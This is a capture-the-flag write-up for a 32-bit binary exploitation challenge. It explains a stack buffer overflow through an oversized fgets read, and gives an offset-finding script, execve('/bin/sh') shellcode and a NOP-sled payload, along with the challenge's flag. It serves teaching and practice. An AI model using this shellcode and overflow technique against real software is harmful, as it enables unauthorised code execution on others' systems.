

# New Office

## Authors

- @jame (Frank)

## Category

- Binary Exploit

## Description

We aren't using gets this time so good luck trying to execute a buffer overflow

`nc pwn.ctf.unswsecurity.com 5001`

## Difficulty

- Easy

## Points

50

## Files

- [new_office](_ctfd/files/new_office): binary to exploit

Try include a link to the file where possible (such as within a repo).

## Solution

<details>
<summary>Spoiler</summary>

### Idea

Use buffer overflow to redirect code execution!

### Walkthrough

As usual, a plug for LiveOverflow is due:

- [LiveOverflow's binary exploitation playlist](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)
  (Shall go into the exploits in MUCH more detail, is how @Sequeli learnt buffer overflows)

This challenge is similar to [Welcome to Skylight Cyber](/binary/Welcome-To-Skylight-Cyber/writeup.md), however the main thing is that we're not using gets anymore. But lets try a lot of input anyway, and we see that the program segfaults
  
```bash
python2 -c "print 'a' * 100" | ./new_office
# segmentation fault
```

Why did this happen?

Disassembling the binary, we see that while it uses fgets, the "push" instruction pushes an absurdly large number on the stack, larger than the buffer itself. This is _almost_ same as making a gets call directly since we can overwrite the stack and the return address in extension


```c
fgets(buffer, 0x1388)
```

Notice how the addresses are offsets (a very low number). This means that PIE (Position Independent Execution) is enabled. We can check this using pwntools:
```bash
checksec new_office
```
This also means that the addresses in the binaries keep changing and cannot be hardcoded.

But first, we need to find the offset to the return address. We can use a modified version of the solution from the welcome to the secsoc challenge to find the address
```py
from pwn import *
from subprocess import Popen, PIPE

for i in range(20, 100):
    test = b'a' * i
    
    # open a link to the program and execute
    prog = Popen('./new_office', stdin=PIPE, stdout=PIPE)
    prog.communicate(test)

    # Segfault
    if prog.returncode == -11:
        print(i)
        break
```

Here we get 62 again, the buffer size is the same.

The next problem is to find how to exploit the program. There's no `win` function, so the best thing to do is to try and open a shell, so we can grab the flag from the server.

Since we have a lot of space on the stack, we could make use of the space to create and execute our exploit. From `checksec` earlier, we see that the NX (Non-executable Stack) protection is turned off as well.

So we can choose our exploit to be shellcode-based. Shellcode is just machine code that the program can execute. It's simply inserting your instructions into a binary.

We can again use to generate the shellcode for us, we simply write the assembly for it. We essentially want to mock the `system()` syscall and pass it the string "/bin/sh" (or in hex: `0x2f62696e2f7368`). In C this would be:
```c
system("/bin/sh")
```
which would open a shell.

**Note:** We need to format /bin/sh to be in little endian format, and split it into two parts so that it can be pushed onto the stack. /bin/sh is actually padded to `//bin/sh` to make it 8 bytes so that it can be pushed onto the stack. This is a nice trick since executing `//bin/sh` is the same as executing `/bin/sh`

Here's the assembly to set up the registers properly for the syscall
```py
shellcode = asm(
'''
xor eax, eax
push eax

push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
mov edx, ecx

mov eax, 0xb
int 0x80
'''
)
```
Now we can jump to it. We're told the address of the buffer, so we can simply put the shellcode in the buffer and then jump to it

Finally, since aslr is turned on, if the address is not exactly at the start of our shellcode, then the exploit won't run. To avoid this, we can use something called a "nop sled". The `nop` (0x90) instruction does nothing, so we can put a ton of them before our shellcode to make sure that the shellcode will always execute in order. We can put an arbitrary number of `nop`s (say 500). The more the better.

So the payload is:
```py
buff_addr = (...) # get this from the program itself
payload = b"\x90"*62 + buff_addr + b"\x90"*500 + shellcode
```

And now we can automate all of this using pwntools. An example of which is in [the solve script in this repository](solve.py)


### Flag

`SKYLIGHT{3x3CuTe_0ff1cE_5TACK}`

</details>
